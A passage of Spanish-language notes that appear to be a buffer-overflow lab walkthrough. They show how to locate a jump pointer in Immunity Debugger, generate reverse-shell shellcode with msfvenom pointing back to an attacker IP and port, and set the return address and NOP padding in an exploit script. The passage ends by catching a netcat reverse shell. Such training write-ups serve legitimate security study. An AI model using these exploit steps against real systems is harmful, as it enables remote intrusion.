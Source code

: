 Y se nos muestra el pointer, el cual es 0x311712f3:
![[Pasted image 20231201103636.png]]

Ahora volvemos a ejecutar el programa haciendo clic en el siguiente botón, donde se nos debería abrir un apartado para insertar datos:
![[Pasted image 20231201103842.png]]

Aquí pondremos el pointer obtenido anteriormente:
![[Pasted image 20231201103911.png]]

Damos a OK y nos fijamos en el siguiente campo:
![[Pasted image 20231201103959.png]]

Lo seleccionamos y hacemos clic en F2, donde a continuación le daremos al play:
![[Pasted image 20231201104056.png]]

## GENERAR SHELLCODE
Ahora ya lo tenemos todo preparado para generar el shellcode, por lo que usaremos msfvenom de la siguiente forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.32 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
![[Pasted image 20231201104319.png]]

Pegamos este resultado en la variable payload del exploit.py:
![[Pasted image 20231201104514.png]]

Y cambiamos las siguientes variables, donde la variable retn es el número del jmp que vimos anteriormente pero al revés; y el padding significa el conjunto de datos adicionales que se añaden a la estructura de datos:
```python
retn= "\xf3\x12\x17\x31"
padding = "\x90" * 16
```
![[Pasted image 20231201104946.png]]

Ponemos la IP real del objetivo (ya no estamos testeando con el inmunity debugger, sino que atacaremos al target real):
![[Pasted image 20231201105050.png]]

Lo ejecutamos:
![[Pasted image 20231201105126.png]]

Y mientrar estamos escuchando con netcat, habremos recibido la reverse shell gracias al shellcode generado anteriormente:
![[Pasted image 20231201105139.png]]
